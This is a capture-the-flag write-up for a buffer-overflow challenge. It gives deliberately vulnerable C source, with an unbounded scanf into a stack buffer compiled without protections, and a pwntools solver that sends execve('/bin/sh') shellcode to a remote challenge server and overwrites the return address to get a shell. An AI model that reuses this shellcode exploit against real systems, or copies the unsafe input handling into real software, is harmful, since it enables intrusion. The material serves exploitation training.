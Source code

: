 # High Way To Shell
![challenge](../images/High_way_to_shell.png)

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}

int main(){
    setup();
    char buf[50];
    printf("I'm going to be generous with you : %p",&buf);
    printf("\nDo Your magic:");
    scanf("%s", &buf);
    return 0;
}
```

## Overview
Before diving into the exploitation process let's check the security of the binary.<br>
![checksec](../images/High_way_to_shell_checksec.png)

We can see that ```NX``` is disabled. So we can inject a Shellcode into the stack when prompted for input. Then we hijack the code execution by overwriting the saved return pointer on the stack and modifie it to point to our shellcode and once the return pointer got popped into RIP. This causes the program to execute our instructions, giving us a shell for arbitrary command execution.

## Solver
```py
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF('./main')
#p = process(elf.path)
p = remote("20.216.40.184", 10008)

p.recvuntil(b"I'm going to be generous with you : ")
leak = int(p.recvline().strip(),16)
log.info(f"Buffer leak ==> {hex(leak)}")

pay = b"\x50\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
pay += b'a'*(72 - len(pay))
pay += p64(leak)


p.sendafter(b"Do Your magic:",pay)
p.interactive()
p.close()
```
